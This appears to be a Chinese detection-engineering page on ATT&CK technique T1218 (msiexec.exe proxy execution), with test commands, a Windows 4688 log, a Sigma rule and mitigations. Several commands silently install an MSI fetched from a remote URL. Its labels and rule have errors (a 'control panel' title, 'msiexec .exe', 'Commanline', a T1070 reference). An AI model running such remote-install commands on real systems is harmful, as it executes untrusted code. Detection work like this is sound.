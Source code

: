# T1218-002-win-签名的二进制代理执行：控制面板

## 来自ATT&CK的描述

攻击者可能滥用msiexec.exe来代理恶意有效负载的执行。Msiexec.exe是Windows安装程序的命令行实用程序，因此通常与执行安装包（.msi）相关联。Msiexec.exe由Microsoft进行数字签名。

攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。Msiexec.exe还可以执行DLL。由于Msiexec.exe在Windows系统上是签名的，因此可以使用Msiexec.exe绕过不考虑其潜在滥用的应用程序控制解决方案。如果启用了AlwaysInstallElevated策略，Msiexec.exe的执行也可以提升为系统权限。

## 测试案例

来自微软的msiexec介绍：<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec>

```yml
msiexec.exe /q /i "C:\path\xx.msi"
msiexec.exe /q /I http://8.8.4.4/xx.msi
msiexec.exe /y "C:\path\xx.dll"
```

## 检测日志

windows security

## 测试复现

仅做演示：

```yml
C:\Users\Administrator>msiexec.exe /q /I http://www.baidu.com/1.msi
```

## 测试留痕

windows 安全日志 4688

```yml
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0x9D23C

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x19c
 新进程名称: C:\Windows\System32\msiexec.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x690
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: msiexec.exe  /q /I http://www.baidu.com/1.msi
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用msiexec.exe执行恶意程序
description: 攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。
status: experimental
references:
    - https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec 
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​        EventID:
​                - 4688 #Windows 安全日志
        New Process Name: 'msiexec .exe' #Application Name
        Commanline: 
                - '/q'
                - '/y'
                - '/i'
​    condition: selection
level: low
```

## 建议

使用进程监控来监视msiexec.exe的执行和参数。将msiexec.exe的最近调用与已知良好自变量和执行的MSI文件或DLL的先前历史进行比较，以确定异常和潜在的对抗活动。在调用msiexec.exe之前和之后使用的命令参数在确定正在执行的MSI文件或DLL的来源和用途方面也可能很有用。

## 缓解措施

1. 禁用或删除功能或程序：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。
2. 特权账户管理：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。

## 参考推荐

MITRE-ATT&CK-T1070-007

<https://attack.mitre.org/techniques/T1218/007/>
